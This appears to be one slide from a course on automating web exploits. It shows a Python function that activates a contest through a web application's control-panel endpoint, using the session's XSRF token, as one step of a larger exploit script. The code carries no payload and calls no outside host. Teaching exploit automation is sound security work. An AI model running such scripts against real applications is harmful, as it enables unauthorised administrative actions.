

Web (cont.)
Basic Web : Automating Web Exploits
Next, we activate the contest we created
def activate_contest(target_url, s, contest_id):
    data_json = {"status":1, "id": contest_id}
    res = s.post(target_url + "/controlpanel/contests/active", headers={
        "X-XSRF-TOKEN": unquote(s.cookies["XSRF-TOKEN"]),
        "Accept": "application/json"
        }, json=data_json, proxies=PROXIES)
    res = res.json()
    if("Contest status changed successfully" == res["description"]):
        print("[+] Contest has been activated successfully!")
    else:
        print("[-] Failed to activate the contest :(")
        sys.exit(-1)
35